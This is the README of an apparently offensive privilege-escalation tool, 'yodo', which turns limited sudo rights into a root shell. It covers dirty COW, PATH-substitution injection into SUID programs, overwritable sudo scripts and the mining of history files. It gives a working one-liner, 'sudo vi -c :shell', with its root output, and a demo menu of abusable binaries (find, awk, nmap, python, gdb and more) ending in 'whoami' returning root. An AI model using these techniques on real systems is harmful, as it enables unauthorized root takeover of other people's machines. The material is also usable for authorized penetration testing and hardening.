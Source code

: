# yodo
This tool proves how easy it is to become root via limited sudo permissions, via dirty COW or using Pa(th)zuzu.

dirty COW : exploits a race condition in the implementation of the copy-on-write mechanism
Link : https://dirtycow.ninja

Pa(th)zuzu : Checks for PATH substitution vulnerabilities, logs the commands executed by the vulnerable executables and injects commands with the permissions of the owner of the process (SUID)
Link : https://github.com/ShotokanZH/Pa-th-zuzu


# Extra features
-
VSP : checks if the user is able to overwrite a sudo-enabled command with his own

History : checks for * history (like bash_history) files. You could be lucky!

b3 : tries to substitute commands that has root privileges [sudo -l >>> User may run the following commands ... (root) NOPASSWD: /path/to/script]




Example:
If a user has sudo privileges only on vi, he could become root by runnuing this command: sudo vi -c ':shell'

    b3rito@victim ~/Desktop $ sudo vi -c ':shell'
    [sudo] password for b3rito:
    victim Desktop # whoami
    root

# Author
Written by b3rito at mes3hacklab

# Installation
    chmod +x yodo.sh

# Usage
./yodo.sh
    
    b3rito@victim ~/Desktop $ ./yodo.sh
    =======================================================================                                                       
                                    ....                         
                                ..  .77.                        
                                Z.  ,77?                        
                               .Z$.....,?+?.       
                       ....     $?Z.77+??I..            
                       .7I.  .....~.77:=I..Z.....      
                       .77?  ..7?.?.=7....ZO..~..            
                   ..  ..7$7.=7I$.??+.$$~.==.??..    .~..  
                  .$Z$..Z...77.$7..+=?,.I?=.++.+~....?7... ..  
                   ..?.I7:..77....$$IO++??=...7$.Z$..7$?..7$  
                   .77.+:$?7..Z$.?,.~M,?,..77. .ZZ...,,.$77.. 
              ..$=. +7$7...77+$I? ???M.$.I:~I?..,$..7$.Z7=.   
              ..Z7Z.=..~,.....,=O...~MI=~=...O$.~...?7..:$7I. 
              ...Z.Z.?I?.=:.??...??..M.ZZ.. ,.~Z$I,.,7...I.,....   
              ..,......:.~~.?.?+..?~7M..,?...==.~7..:.Z$+.. ....
                .?7..??,...Z.=?:.I7..M. D$Z?$+=.:... +Z+,....77.....
          .$~...:+O7$.+I+$=~:.=...7,:M.M~7 ..Z$..+~:?...7?$.?$~.OZZ$Z...
          ..$I7=?I?,..7?$$M..=:..?...MM.7$,.7...:??....,7I...?..Z$Z$$$.
          ...,=~.?.+.7.....8.$...?,+~MD+I...$7.I.O$Z$.. D8..I=$:$,....
            .$~+$....7Z.$$$7M.?+=$..,M8 .Z.I., M,ZZZ.MM..7+?+77..7..
              .. ...$.MM.....MZ$~Z:Z,MM.O$,$7,MZ .NMM.~77.+?+.7...
                 I7~Z....MM .M7Z....?MMO,Z..$.M 8MM ..=77I=~?..I~.
            .$7I7?.+...$...:MMM. .$=OMM?Z,,..MMMMMMMMMMMMMI..=Z$+...
            ..?7I$$I.+.O:Z,=.8MN.$??MMM..$7.MMM...Z.$.+,?.Z.Z=..$77$..
                   ...?OMMMMMMDMM7$IMMM ..MMM..,$7.Z$Z..??I$,Z.?I...
                   7?:++.??=...~8D..MMM MMMM.???.$...~$.....$Z..7$.. 
                   .....??,::Z$::MM.MMMMMM,,=II?II,.....   ...... ..
                        ,...?:...IOOO8OO8 ?I,:        ,.     
                            .     88OOOO. :.                 
                           .:,,,:,.8OOOO :.                  
                           .,....,. OO8M:.. :.               
                            ..... . 8OMN.:.                  
                                   .ONM8::.                  
                    :8MDO  8MDO   :8MDO,    DMO8M       :8MDO, 
                      DMO  DMO  .+8D   MO,  DMO  8M   .+8D   MO,
                        O  O    $O     OMM  DMO   8M  $O     OMM 
                      :8MDO    .OO     O8   DMO  8M  .OO     O8M,
                      DMO         .8°O88    DMO8M       .8°O88
                                  .8OOOO. .           :.       
                       ...         OOOOO,.                       
        ..  . ......    .........,.MMMMMMI.,........... .       
          .     .. ,INMMMMMMMMMMMMMMMMMMIZMMMMMMMN7=..... . . .  ..
                 .  =. ......~?ZMMMIM.MM NMMN...   .......=+ . .  
                 .  .. .  .$...MM,.MM ..MD....MMMMO... .. ..,..~ 
                 ,     .   . :MM.  MM  .ZMM?.. .$M...7MD77ZD+.,. 
              .    .  :=D7Z8MM.   .M:   .. .MD.. .7D~. ..,.O. .. 
              .. $..=.    ?M?. .. .M.  ..M...IMM  .,..M ..   ..:.. 
              . ..... . .MM.Z   D ,M+. . :+..M. N+ . . ..? . .... 
                       .M7=.+.=.~.:MM.    .  , . .M..   .  ,.  
                      .N?.8. ~  ..,M 8. ... . M. . M.      . . .  
                  . ..NM .$..    .MM...  .    ,+.:: 8 .         
                 . =M.M ..?..    ..M  M .   . .M .I,.M.       
            ,~~  .   .I...8..    M M  .8,.     Z.... b3    
               .     +.   +. .. : .M....O.    ...  . D.=.   
                     O.  .~,    $. 8     .    .~.  ..+ .   
                     8.   ...   M. ,..   , +   .I.. .,..7  
                     O.    .    I   I     ..  .   .  .... 
                     +.      .  :  .M.                   
                      .         .   M                  
                     ..         .   ..                
                     .          .                    
                      ~.             N.                                         
    =======================================================================
    Possible exploitable options (‡ excluded):
     [·] find
     [·] vi
     [·] b3
 
     Select From the menu:
 
       1) Find                8) Man  *               17) Pathzuzu °‡
       2) AWK                10) Dirty COW °‡         18) History °‡
       3) Nmap               11) Gdb                  19) Vim
       4) Vi                 12) Ruby                 20) Lua
       5) Python             13) b3                   21) Ftp *
       6) Irb                14) Perl                 22) Credits
       7) Less *             15) Tee                  23) Update
       8) More *             16) VSP °‡               99) Exit
         
     VSP = Vulnerable Script Permissions
     Pathzuzu = SUID exploitation through Path vulnerability
     * user interatcion
     ° sudo not required
    Enter Number: 1
    [sudo] password for b3rito:
    victim Desktop # whoami
    root
    victim Desktop #
